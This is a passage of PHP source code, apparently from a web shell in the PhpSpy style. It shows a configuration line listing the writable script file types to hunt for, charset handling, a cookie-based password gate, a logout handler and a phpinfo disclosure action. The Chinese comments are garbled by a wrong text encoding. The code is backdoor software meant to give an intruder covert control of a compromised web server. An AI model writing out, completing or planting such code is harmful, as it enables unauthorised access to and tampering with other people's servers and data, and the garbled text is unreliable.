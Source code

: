 //³ÌÐòËÑË÷¿ÉÐ´ÎÄ¼þµÄÀàÐÍ
!$writabledb && $writabledb = 'php,cgi,pl,asp,inc,js,html,htm,jsp';
/*===================== ÅäÖÃ½áÊø =====================*/

$charsetdb = array('','armscii8','ascii','big5','binary','cp1250','cp1251','cp1256','cp1257','cp850','cp852','cp866','cp932','dec8','euc-jp','euc-kr','gb2312','gbk','geostd8','greek','hebrew','hp8','keybcs2','koi8r','koi8u','latin1','latin2','latin5','latin7','macce','macroman','sjis','swe7','tis620','ucs2','ujis','utf8');
if ($charset == 'utf8') {
	header("content-Type: text/html; charset=utf-8");
} elseif ($charset == 'big5') {
	header("content-Type: text/html; charset=big5");
} elseif ($charset == 'gbk') {
	header("content-Type: text/html; charset=gbk");
} elseif ($charset == 'latin1') {
	header("content-Type: text/html; charset=iso-8859-2");
} elseif ($charset == 'euc-kr') {
	header("content-Type: text/html; charset=euc-kr");
} elseif ($charset == 'euc-jp') {
	header("content-Type: text/html; charset=euc-jp");
}

$self = $_SERVER['PHP_SELF'] ? $_SERVER['PHP_SELF'] : $_SERVER['SCRIPT_NAME'];
$timestamp = time();

/*===================== Éí·ÝÑéÖ¤ =====================*/
if ($action == "logout") {
	scookie('loginpass', '', -86400 * 365);
	@header('Location: '.$self);
	exit;
}
if($pass) {
	if ($action == 'login') {
		if ($pass == encode_pass($password)) {
			scookie('loginpass',encode_pass($password));
			@header('Location: '.$self);
			exit;
		}
	}
	if ($_COOKIE['loginpass']) {
		if ($_COOKIE['loginpass'] != $pass) {
			loginpage();
		}
	} else {
		loginpage();
	}
}
/*===================== ÑéÖ¤½áÊø =====================*/

$errmsg = '';
!$action && $action = 'file';

// ²é¿´PHPINFO
if ($action == 'phpinfo') {
	if (IS_PHPINFO) {
		phpinfo();
		exit;
	} else {
		$errmsg = 'phpinfo() function has non-permissible';
	}
}
